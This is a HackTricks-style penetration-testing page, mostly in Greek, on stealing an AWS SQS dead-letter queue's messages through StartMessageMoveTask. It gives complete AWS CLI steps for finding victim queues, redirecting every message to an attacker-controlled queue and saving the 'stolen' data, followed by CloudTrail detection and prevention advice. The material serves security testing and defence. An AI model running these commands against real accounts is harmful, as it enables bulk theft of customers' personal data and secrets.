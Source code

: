 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../../banners/hacktricks-training.md}}

## Description

Κακοποίηση των SQS message move tasks για να κλαπούν όλα τα συσσωρευμένα μηνύματα από το Dead-Letter Queue (DLQ) ενός θύματος αναδρομολογώντας τα σε ουρά ελεγχόμενη από τον επιτιθέμενο χρησιμοποιώντας `sqs:StartMessageMoveTask`. Αυτή η τεχνική εκμεταλλεύεται το νόμιμο χαρακτηριστικό ανάκτησης μηνυμάτων του AWS για να εξάγει ευαίσθητα δεδομένα που έχουν συσσωρευτεί σε DLQs με την πάροδο του χρόνου.

## What is a Dead-Letter Queue (DLQ)?

Μια Dead-Letter Queue είναι μια ειδική SQS ουρά όπου τα μηνύματα αποστέλλονται αυτόματα όταν δεν επεξεργάζονται επιτυχώς από την κύρια εφαρμογή. Αυτά τα αποτυχημένα μηνύματα συχνά περιέχουν:
- Ευαίσθητα δεδομένα εφαρμογής που δεν μπορούσαν να επεξεργαστούν
- Λεπτομέρειες σφαλμάτων και πληροφορίες debugging
- Personal Identifiable Information (PII)
- API tokens, credentials, ή άλλα secrets
- Επιχειρηματικά κρίσιμα δεδομένα συναλλαγών

Οι DLQs λειτουργούν ως "νεκροταφείο" για αποτυχημένα μηνύματα, καθιστώντας τα πολύτιμους στόχους αφού συσσωρεύουν ευαίσθητα δεδομένα με την πάροδο του χρόνου που οι εφαρμογές δεν μπόρεσαν να διαχειριστούν σωστά.

## Attack Scenario

**Real-world example:**
1. **E-commerce application** επεξεργάζεται παραγγελίες πελατών μέσω SQS
2. **Some orders fail** (προβλήματα πληρωμής, αποθέματος, κ.λπ.) και μεταφέρονται σε ένα DLQ
3. **DLQ accumulates** εβδομάδες/μήνες αποτυχημένων παραγγελιών που περιέχουν δεδομένα πελατών: {"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}
4. **Attacker gains access** σε AWS credentials με δικαιώματα SQS
5. **Attacker discovers** ότι το DLQ περιέχει χιλιάδες αποτυχημένες παραγγελίες με ευαίσθητα δεδομένα
6. **Instead of trying to access individual messages** (αργό και προφανές), ο επιτιθέμενος χρησιμοποιεί `StartMessageMoveTask` για μαζική μεταφορά ΟΛΩΝ των μηνυμάτων στην δική του ουρά
7. **Attacker extracts** όλα τα ιστορικά ευαίσθητα δεδομένα με μία ενέργεια

## Requirements
- Η source queue πρέπει να έχει ρυθμιστεί ως DLQ (referenced by at least one queue RedrivePolicy).
- IAM permissions (τρέχοντας ως ο συμβιβασμένος victim principal):
- Στο DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Στην destination queue: δικαίωμα παράδοσης μηνυμάτων (π.χ. queue policy που επιτρέπει `sqs:SendMessage` από τον victim principal). Για προορισμούς στο ίδιο account αυτό συνήθως επιτρέπεται από προεπιλογή.
- Αν είναι ενεργοποιημένο το SSE-KMS: στο source CMK `kms:Decrypt`, και στο destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
**Potential Impact**: Εξαγωγή ευαίσθητων payloads που έχουν συσσωρευτεί σε DLQs (αποτυχημένα events, PII, tokens, application payloads) με υψηλή ταχύτητα χρησιμοποιώντας τις εγγενείς SQS APIs. Λειτουργεί cross-account εάν η destination queue policy επιτρέπει `SendMessage` από τον victim principal.

## How to Abuse

- Εντοπίστε το victim DLQ ARN και βεβαιωθείτε ότι αυτό αναφέρεται πραγματικά ως DLQ από κάποια ουρά (οποιαδήποτε ουρά είναι αποδεκτή).
- Δημιουργήστε ή επιλέξτε μια attacker-controlled destination queue και πάρτε το ARN της.
- Ξεκινήστε ένα message move task από το victim DLQ προς την destination queue σας.
- Παρακολουθήστε την πρόοδο ή ακυρώστε αν χρειαστεί.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: Ένας επιτιθέμενος έχει παραβιάσει AWS credentials και ανακάλυψε ότι μια e-commerce εφαρμογή χρησιμοποιεί SQS με ένα DLQ που περιέχει αποτυχημένες προσπάθειες επεξεργασίας παραγγελιών πελατών.

1) **Discover and examine the victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Δημιουργήστε attacker-controlled ουρά προορισμού**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Εκτέλεσε την μαζική κλοπή μηνυμάτων**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Συλλογή των κλεμμένων ευαίσθητων δεδομένων**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Δια-λογαριασμικές σημειώσεις
- Η ουρά προορισμού πρέπει να έχει resource policy που επιτρέπει στον principal του θύματος να `sqs:SendMessage` (και, αν χρησιμοποιείται, KMS grants/permissions).

## Γιατί αυτή η επίθεση είναι αποτελεσματική

1. **Legitimate AWS Feature**: Uses built-in AWS functionality, making it hard to detect as malicious  
2. **Bulk Operation**: Transfers thousands of messages quickly instead of slow individual access  
3. **Historical Data**: DLQs accumulate sensitive data over weeks/months  
4. **Under the Radar**: Many organizations don't monitor DLQ access closely  
5. **Cross-Account Capable**: Can exfiltrate to attacker's own AWS account if permissions allow

## Ανίχνευση και Πρόληψη

### Ανίχνευση
Παρακολουθήστε το CloudTrail για ύποπτες κλήσεις API `StartMessageMoveTask`:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Πρόληψη
1. **Ελάχιστη Άδεια**: Περιορίστε τις άδειες `sqs:StartMessageMoveTask` μόνο στους απαραίτητους ρόλους
2. **Παρακολούθηση DLQs**: Ρυθμίστε CloudWatch alarms για ασυνήθη δραστηριότητα στα DLQs
3. **Πολιτικές Δια-Λογαριασμών**: Ελέγξτε προσεκτικά τις πολιτικές ουρών SQS που επιτρέπουν πρόσβαση από άλλους λογαριασμούς
4. **Κρυπτογράφηση DLQs**: Χρησιμοποιήστε SSE-KMS με περιορισμένες πολιτικές κλειδιού
5. **Τακτικός Καθαρισμός**: Μην αφήνετε ευαίσθητα δεδομένα να συσσωρεύονται στα DLQs επ' αόριστον

{{#include ../../../../banners/hacktricks-training.md}}
